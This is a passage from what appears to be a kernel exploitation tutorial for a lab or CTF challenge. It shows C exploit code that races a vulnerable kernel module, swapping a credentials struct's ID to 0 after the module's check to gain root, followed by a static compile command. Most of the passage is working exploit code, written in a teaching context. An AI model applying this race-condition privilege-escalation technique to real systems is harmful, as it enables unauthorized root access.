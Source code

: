 ```c
    printf("FD: %d\n", fd);

    // use a random ID and set the password correctly
    Credentials creds;
    creds.id = 900;
    strcpy(creds.password, "p4ssw0rd");

    // set up the switcher thread
    // pass it a pointer to `creds`, so it can modify it
    pthread_t thread;

    if (pthread_create(&thread, NULL, switcher, &creds)) {
        fprintf(stderr, "Error creating thread\n");
        return -1;
    }

    // now we write the cred struct to the module
    // it should be swapped after about .3 seconds by switcher
    int res_id = write(fd, &creds, 0);

    // write returns the id we switched to
    // if all goes well, that is 0
    printf("New ID: %d\n", res_id);

    // finish thread cleanly
    if (pthread_join(thread, NULL)) {
        fprintf(stderr, "Error joining thread\n");
        return -1;
    }

    return 0;
}

void *switcher(void *arg) {
    Credentials *creds = (Credentials *)arg;

    // wait until the module is sleeping - don't want to change it BEFORE the initial ID check!
    sleep(0.3);

    creds->id = 0;
}
```
{% endcode %}

We have to compile it statically, as the VM has no shared libraries.

```bash
$ gcc -static -o exploit -pthread exploit.c
```

Now we have to somehow get it into the file system. In order to do that, we need to first extract the `.cpio` archive (you may want to do this in another folder):
